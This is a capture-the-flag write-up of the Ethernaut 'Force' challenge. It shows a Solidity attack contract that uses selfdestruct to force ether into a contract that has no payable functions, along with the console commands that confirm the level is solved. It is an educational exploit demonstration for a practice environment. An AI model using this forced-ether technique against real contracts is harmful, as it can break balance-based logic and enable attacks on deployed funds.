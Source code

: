 <img src="https://ethernaut.openzeppelin.com/imgs/BigLevel7.svg">

## Look Over Target Contract

Given contract.

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
```

Challenge's message.

> Some contracts will simply not take your money ¯\_(ツ)_/¯
The goal of this level is to make the balance of the contract greater than zero.

Our aim should be send ether to target contract to solve this challenge.

## Subverting

My attack contract.

```solidity
pragma solidity ^0.8.0;

contract Attack{

    address payable target;

    constructor(address payable _target){
        target = _target;
    }

    function attack()public payable{
        selfdestruct(target);
    }
}
```

In the starting point, identify the contart address which is our target. Afterwards, send ether to target contract with ```selfdestruct()``` method. With help of selfdestruct, contracts can be deleted from the blockchain and selfdestruct **sends all remaining ether stored in the contract** to a designated address. For this reason,
a malicious contract can use **selfdestruct** to force sending Ether to any contract.

Learn target contract's address.

```shell
await instance
'0x2C5eB5feC2C02C4bAba25DfD9e9E9092967Bde51'
```
Deploy and call attack function.

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/deploy.png">

<img src="https://github.com/wasny0ps/Ethernaut-Challenges/blob/main/Challenges/Force/img/transaction.png">


Check instance's balance. Solved the challenge.

```shell
await getBalance(instance)
'0.00000000000000001'
```

**_by wasny0ps_**
